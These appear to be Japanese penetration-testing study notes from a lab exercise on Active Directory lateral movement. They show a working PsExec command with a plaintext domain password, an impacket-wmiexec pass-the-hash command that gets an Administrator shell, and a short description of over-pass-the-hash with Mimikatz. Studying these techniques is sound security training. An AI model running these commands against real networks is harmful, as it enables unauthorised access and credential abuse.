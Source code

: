 PsExecを使用することによって、リバースシェルをキャッチすることなくターゲットシステム上でローカル管理者のjenドメインアカウントとして対話型シェルを直接取得したことを確認している  
  
PsExecで横移動するにはいくつかの要件を満たす必要がある。  
・Administratorsローカルグループに属している必要がある  
・ADMIN$共有が使用可能である(デフォルト設定でONになっている)  
・ファイルとプリンター共有がオンになっている必要がある(デフォルト設定でONになっている)  

**以下はCLIENT74からFILES04に横展開**する例:  

```
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```


### Pass the Hash

・ADMIN$と呼ばれる管理共有が使用可能であることが必要  
・ローカルの管理権限が必要  
・SMBとWindowsファイルとプリンターの共有機能を有効にする必要がある  

```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```


### Over Pass the Hash

NTLMハッシュをKerberosチケットに変換してNTLM認証の使用を回避することが本質  
Mimikatzのsekurlsa::pthを使用して実現できる  
**キャッシュされた NTLM パスワード ハッシュを Kerberos TGT にアップグレードすることができる**  
  